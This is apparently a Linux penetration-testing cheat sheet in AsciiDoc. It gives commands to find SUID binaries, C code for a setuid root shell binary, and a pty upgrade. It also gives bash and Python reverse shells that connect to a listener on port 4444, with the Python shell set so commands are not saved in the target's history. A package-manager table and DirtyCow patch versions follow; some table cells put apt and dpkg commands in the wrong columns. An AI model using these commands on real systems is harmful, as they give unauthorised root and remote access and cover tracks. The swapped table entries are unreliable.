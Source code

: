 === Linux
==== Find interesting things

   find / -perm /6000 -type f 2>/dev/null

SUID binaries

   printf 'int main(void){\nsetresuid(0,0,0);\nsetregid(0,0,0);\nsystem("/bin/sh");\n}' > /tmp/suid.c
   gcc -static -O3 -o suid suid.c
   strip suid
   chown root:root suid
   chmod a+s suid

A simple suid binary that runs a shell.

==== TTYs

  python -c 'import pty; pty.spawn("/bin/bash")'

Upgrade your current session to one with a pty.

==== Reverse Shells

===== Bash

  bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'

The first `bash` has to be bash, to get the tcp support used later on. The second `bash` could be any other shell or program.

===== Python

  python -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); \
  s.connect(("127.0.0.1", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); \
  os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash"); \
  s.close()'

This also sets up the tty from earlier and "nulls out" the path to the history file, so your commands aren't saved on the target.

<<<

==== Package Managers

|===
|Action |apt |dpkg |yum |rpm
|List
|->
|`dpkg -l`
|`yum list installed`
|`rpm -qa`

|Search available
|`apt-cache search P`
|_n/a_
|`yum search P`
|_n/a_

|Install
|`apt install P`
|`dpkg -i P.deb`
|`yum install P`
|`rpm -i P.rpm` or `rpm -U P.rpm`

|Remove
|`dpkg -P P`
|`apt remove P`
|`yum remove P`
|`rpm -e P`

|Check for corruption
|_n/a_
|`debsums -as`
|_n/a_
|`rpm -Va`


|===
==== Exploits
===== CVE-2016-5195 DirtyC0w

Patched in:

|===
|4.8.0-26.28 |Ubuntu 16.10
|4.4.0-45.66 |Ubuntu 16.04 LTS
|3.13.0-100.147 |Ubuntu 14.04 LTS
|3.2.0-113.155 |Ubuntu 12.04 LTS
|3.16.36-1+deb8u2 |Debian 8
|3.2.82-1 |Debian 7
|4.7.8-1 |Debian unstable
|===

<<<
